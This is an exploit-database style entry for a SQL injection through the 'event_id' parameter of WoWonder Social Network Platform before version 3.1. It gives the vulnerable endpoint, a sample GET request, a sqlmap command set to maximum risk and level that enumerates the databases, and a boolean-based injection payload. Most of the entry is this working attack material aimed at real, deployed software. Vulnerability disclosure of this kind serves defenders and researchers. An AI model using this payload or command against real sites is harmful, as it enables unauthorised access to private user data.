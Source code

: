 EXP
---

    # Exploit Title: WoWonder Social Network Platform 3.1 - 'event_id' SQL Injection
    # Date: 16.03.2021
    # Exploit Author: securityforeveryone.com
    # Author Mail: hello[AT]securityforeveryone.com
    # Vendor Homepage: https://www.wowonder.com/
    # Software Link: https://codecanyon.net/item/wowonder-the-ultimate-php-social-network-platform/13785302
    # Version: < 3.1
    # Tested on: Linux/Windows

    DESCRIPTION

    In WoWonder < 3.1, remote attackers can gain access to the database by exploiting a SQL Injection vulnerability via the event_id parameter.

    The vulnerability is found in the "event_id" parameter in GET request sent to page requests.php.
    Example:
    /requests.php?hash=xxxxxxxxxxx&f=search-my-followers&filter=s4e&event_id=EVENT_ID

    if an attacker exploits this vulnerability, attacker may access private data in the database system.

    EXPLOITATION

    # GET /requests.php?hash=xxxxxxxxxxx&f=search-my-followers&filter=s4e&event_id=EVENT_ID HTTP/1.1
    # Host: Target

    Sqlmap command: sqlmap -r request.txt --risk 3 --level 5 --random-agent -p event_id --dbs

    Payload: f=search-my-followers&s=normal&filter=s4e&event_id=1') AND 5376=5376-- QYxF